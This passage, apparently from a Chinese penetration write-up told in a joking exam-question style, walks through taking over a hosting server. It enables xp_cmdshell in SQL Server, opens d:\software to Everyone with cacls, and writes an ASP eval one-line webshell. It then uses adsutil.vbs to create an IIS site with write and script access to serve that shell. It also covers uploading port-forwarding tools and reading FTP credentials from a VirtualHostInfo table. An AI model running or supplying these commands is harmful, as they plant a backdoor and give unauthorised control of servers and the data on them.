 （2） 在虚拟机中，运行SSMS，选择“Windows身份验证”登录数据库（图16，17）

（3） 启用cmdshell

（4） 在cmdshell中检查w3svc等IIS相关服务及80端口是否正常，必要时使用adsutil.vbs创建一个新站点（图18）

（5） 在所选的站点下生成一句话（图18）

（6） 使用一句话上传端口转发工具

（7） 凌晨两点准时鸣放100响礼炮提醒大家早睡早起身体好

![](http://drops.javaweb.org/uploads/images/61fdea9484a2897d05bd829f176a9e2d05dfff31.jpg)

图16 禁用sa也无妨

![](http://drops.javaweb.org/uploads/images/b7fb9266081b268f042f8fd4398976bde1571f53.jpg)

图17 禁用sa也无妨之二

```
exec xp_cmdshell 'c:\windows\system32\cmd.exe /c cacls d:\software /e /t /g everyone:f'
exec xp_cmdshell 'echo ^<%b=request("#")%^>^<%eval b%^>  > d:\software\1.asp'    

exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs create_vserv w3svc/99'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/serversize 100'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/servercomment "test"'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/serverbindings ":80:"'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/enabledefaultdoc true'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/path d:\software'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/accessread true'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/accesswrite true'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/accessscript true'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/enabledefaultdoc true'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/appfriendlyName 默认应用程序'
exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs start_server w3svc/99'

```

图18 创建新站点，生成一句话

使用Dos命令echo生成一句话时使用了转义符^（数字6上头之符号）。新站点可直接使用IP地址访问。某些防火墙可能会限制IP地址的访问，随机应变就是了。

场景二：期末考试进行中，vcbb仍正襟危坐。

Q：（问答题，10分）已知虚拟主机所在服务器的系统管理帐号bgw002adm，密码x，请给出登录步骤。（警告：挑战主考官智商者倒扣20分） cvbb欲答：强攻机房，限黑社会6小时内占领主机~~~真是一个语不惊人死不休的人哪，再看外边传进的答案：

A：

（1） 登录Hmp库，在VirtualHostInfo表中查找该主机的Ftp用户名和密码（图19）

（2） 使用Ftp上传端口转发工具

（3） 凌晨四点准时鸣放500响请大家早起锻炼身体后，自己睡觉

![](http://drops.javaweb.org/uploads/images/ce3d2faa3a23af88aac889acbaa2cac1ddd441f8.jpg)

图19 VirtualHostInfo表
